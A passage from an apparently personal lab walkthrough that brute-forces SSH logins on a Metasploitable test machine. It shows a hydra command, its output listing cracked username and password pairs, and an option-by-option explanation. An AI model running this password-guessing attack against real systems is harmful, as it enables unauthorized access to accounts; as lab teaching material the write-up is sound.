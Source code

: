 And get a list of all the users! I copy the above and create a file, paste it then format it to only include usernames:

    # touch users.lst
    # vim users.lst 
    # cat users.lst | cut -d[ -f2 | cut -d] -f1 > users.lst

The actual list contains load of juicy users but for this excercise let's focus on a single user, `msfadmin`.

### Brute forcing

With this is mind I turn to my number one tool for brute forcing: `hydra `. Time to bruteforce!

    # hydra -L ./users.lst -P /usr/share/john/password.lst -e nsr -t 8 -u ssh://192.168.56.103
    Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

    Hydra (http://www.thc.org/thc-hydra) starting at 2014-11-15 04:10:13
    [WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
    [DATA] 8 tasks, 1 server, 121040 login tries (l:34/p:3560), ~15130 tries per task
    [DATA] attacking service ssh on port 22
    [22][ssh] host: 192.168.56.103   login: user   password: user
    [22][ssh] host: 192.168.56.103   login: postgres   password: postgres
    [22][ssh] host: 192.168.56.103   login: msfadmin   password: msfadmin
    [22][ssh] host: 192.168.56.103   login: service   password: service
    [STATUS] 303.00 tries/min, 303 tries in 00:01h, 120737 todo in 06:39h, 8 active
    [22][ssh] host: 192.168.56.103   login: klog   password: 123456789
    [STATUS] 268.67 tries/min, 806 tries in 00:03h, 120234 todo in 07:28h, 8 active
    [STATUS] 274.14 tries/min, 1919 tries in 00:07h, 119121 todo in 07:15h, 8 active
    [22][ssh] host: 192.168.56.103   login: sys   password: batman
    [STATUS] 273.60 tries/min, 4104 tries in 00:15h, 116936 todo in 07:08h, 8 active
    ^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.


Success, at this point I just cancel the scan, I have proven my point and gotten a couple of user name password combos.
Now let me exlain the `hydra` call. There are quite a lot of options to explain so the break it up.

    * `-L` defines the user name list.
    * `-P` denotes a password set. I use the password list from JohnTheRipper here.
    * `-e` gives any addititonal options, in this case; `n`, for `null` password; `s` for using user name as password; `r`, for using the username in reverse.
    * `-t` dictates how many "tasks" should be run, defaults to 16 but has to be throtled to 8 otherwise it produces errors.
    * `-u` tells hydra to apply each password to all users. This will find misconfigured (user name == password) users quicly
    * Lastly we specify the actual target, in this case the protocol is defined as part of the URI.
    